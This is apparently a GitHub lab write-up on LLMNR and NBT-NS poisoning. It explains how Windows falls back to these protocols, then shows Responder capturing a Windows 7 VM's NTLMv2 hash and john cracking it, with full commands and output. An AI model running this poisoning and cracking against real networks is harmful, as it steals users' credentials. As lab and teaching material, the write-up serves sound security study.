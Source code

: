 ## Attack
LLMNR and NBT-NS Spoofing

### Scenario:

**Attacker**: Arch Linux(Jan19-release), any linux distribution is preferable for performing this attack.
**Victim**: Windows 7 SP2 Running in my Virtual Box.

## What is LLMNR and NetBIOS-NS?
**LLMNR** (Link Local Multicast Name Resolution) and NetBIOS-NS (Name Service) are two components that Windows operating systems use for name resolution and communication. LLMNR has been used for the first time with Windows Vista operating system and is seen as the continuation of NetBIOS-NS service.

In cases where the DNS server fails in name resolution queries, these two services are continued to name resolution. The LLMNR and NetBIOS-NS services attempt to resolve queries that the DNS server can not answer. In fact, this is the form of cooperation between Windows operating system computers.

The LLMNR protocol is served by the link-scope multicast IP address 224.0.0.252 for IPv4 and from FF02:0:0:0:0:0:1:3 for IPv6. It performs own operations via 5355 TCP/UDP port.

For example, while trying to ping to test.local that is not on the network, the first query goes to the DNS server. If the DNS server can not resolve this domain name, the query will be redirected to the LLMNR protocol. LLMNR is not an alternative to the DNS protocol; It is an improved solution for situations where DNS queries fail. It is supported by all operating systems marketed after Windows Vista.

**NetBIOS** is an API that the systems in the local network use to communicate with each other. There are three different NetBIOS services.

- Name Service, it uses UDP 137 port for use for name registration and name resolution.
- Datagram Distribution Service, it uses UDP 138 port for connectionless communication.
- Session Service, It performs operations on the TCP 139 port for connection-oriented communication.

The LLMNR protocol is used after the unsuccessful DNS query because the name resolution will be applied with the sort I share at the beginning of the article. And then a NetBIOS-NS packet, which is a broadcast query, is included in the traffic.

<p align="center">
  <img src="/images/llmnrDESC.png" alt=""/>
</p>

Here I am using responder for the attack,

## It's attack time :smiling_imp:
- Start Capturing the traffic on the interface you are connected with the filter 
```bash 
	ip.addr == {Address of the victim}
```
- Start responder on interface with sudo privileges.

```bash
root@archlabs:~/Responder>  sudo ./Responder.py -I eno1 -wrf
```
  The output will be in a similar way.


```bash
.----.-----.-----.-----.-----.-----.--|  |.-----.----.
|   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
|__| |_____|_____|   __|_____|__|__|_____||_____|__|
|__|

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eno1]
Responder IP               [192.168.43.178]
Challenge set              [1122334455667788]

[+] Listening for events...
```

- Now let us wait till the victim starts accessing an inaccessible server.
<p align="center">
  <img src="/images/VictimSS1.png" alt="Victim Machine"/>
</p>

- Now we can see that Responder captures this event.
```bash
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.178
[SMB] NTLMv2-SSP Username : win7\f4lc0n
[SMB] NTLMv2-SSP Hash     : f4lc0n::win7:1122334455667788:C70EFFD5915B4121E403760CC5C484CB:0101000000000000A89E44AB2F15D5013D9048CA1088913D0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000100000000200000DA67F4AC3DE52B034E39D510C5B9053CDF0220D4DDD1DA9DC814C2571E50F29F0A0010000000000000000000000000000000000009001C0063006900660073002F006600690065006C00730068006100720065000000000000000000
[SMB] Requested Share     : \\FIELSHARE\IPC$
[*] Skipping previously captured hash for win7\f4lc0n
[SMB] Requested Share     : \\FIELSHARE\IPC$
```
- Responder successfully stole the password NTLM hash of the victim machine.
- Now use john for cracking the hash. 

```bash
root@archlabs:~/Responder> john hash.txt
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (f4lc0n)
1g 0:00:00:00 DONE 2/3 (2019-05-28 14:20) 2.439g/s 72214p/s 72214c/s 72214C/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
```

- So the password was successfullly stolen :grin:

The network capture for this attack is [here](https://github.com/bj1408/LLMNR-Attack/blob/master/Captures/NBNS.pcapng).

Thanks for passing by :smiley:
### References:
- https://en.wikipedia.org/wiki/NT_LAN_Manager
- https://github.com/SpiderLabs/Responder
- http://www.defenceindepth.net/2011/04/attacking-lmntlmv1-challengeresponse.html
- https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning


